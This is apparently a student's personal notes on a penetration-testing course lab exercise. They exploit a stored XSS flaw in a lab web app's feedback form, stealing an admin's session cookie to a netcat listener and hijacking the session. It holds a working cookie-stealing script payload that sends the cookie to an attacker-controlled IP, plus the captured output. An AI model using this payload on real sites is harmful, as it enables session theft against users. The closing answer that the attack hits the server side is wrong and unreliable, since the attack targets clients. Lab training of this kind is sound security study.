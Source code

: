 9.4.2.5

# 9.4.2.5

## 9.4.2.5.1. Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.

Browse the main page
http://192.168.214.10/
![867e2073ee5b919aacf7280956cd244e.png](:/9dc5c09dd9d546f7aec6dbadee843ce8)

There is a stored XSS vulnerability on
http://192.168.214.10/feedback.php. Enter in special characters in the Comment form section `hello";<>`
![5f1cf16f998786d78367913c767cd9a7.png](:/7c79fa98204a4b9c83d007154db34efc)

Check the browser output plus the inspector tool. It did not encode the special characters
![5d57674bec10851b547d13e70e938123.png](:/9981f25f5f1544f3a4d0b36626c85ffd)

The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

### Stealing the cookie
Open a netcat listener on port 80 on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
```

Create an XSS payload so we can steal the PHPSESSID. The XSS payload is as follows:
`<script>new Image().src="http://192.168.119.214/cool.jpg?output="+document.cookie;</script>`

Submit the XSS payload into the feedback form
![766551bcca36410417c7f9d56bc67005.png](:/0fce84c1e528475c84b73580d8dbe867)

Now go to the Windows machine, and run admin_login.ps1. This will trigger the XSS payload.
```plaintext
C:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File admin_login.ps1 
```
![c8226295680d7eaddfc1185e058bb8ee.png](:/8ff6690012564f61a8b3cf0e43f5a0c9)

**GOTCHA** A pop-up window may appear regarding opening Internet Explorer 11 with Windows Defender. DO NOT use recommended settings!
![fae8de70e8f7adb7a71b6cac54d088e2.png](:/7d06363b6a9b4d5da3f383ebff7f8832)

Observe we now have a cookie PHPSESSID=0f2rkmije29p3vhahp6m654r6c
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -lnvp 80
listening on [any] 80 ...
connect to [192.168.119.214] from (UNKNOWN) [192.168.214.10] 49616
GET /cool.jpg?output=PHPSESSID=0f2rkmije29p3vhahp6m654r6c HTTP/1.1
Accept: image/png, image/svg+xml, image/jxr, image/*;q=0.8, */*;q=0.5
Referer: http://127.0.0.1/admin.php
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Host: 192.168.119.214
Connection: Keep-Alive
```

Set the cookie in our browser
![IMG_2434.JPG](:/5f61c08803aa4343804f4ab61f399eb6)


Browse to http://192.168.214.10/admin.php. We are in without a password!
![45406bb36c0ad713b354e0440d8546eb.png](:/b60056dc8a6c486aaca420f0151a6b15)


## 9.4.2.5.2. Consider what other ways an XSS vulnerability in this application might be used for attacks.
Remote code execution using reverse shells

## 9.4.2.5.3. Does this exploit attack the server or clients of the site?
It attacks the server side


id: c782cce6e7fc4efbb4d09a583fd68a41
parent_id: 33a465e6698d4fac9c4f8149b7813316
created_time: 2020-09-20T13:38:33.145Z
updated_time: 2020-09-21T09:39:43.558Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-20T13:38:33.145Z
user_updated_time: 2020-09-21T09:39:43.558Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1
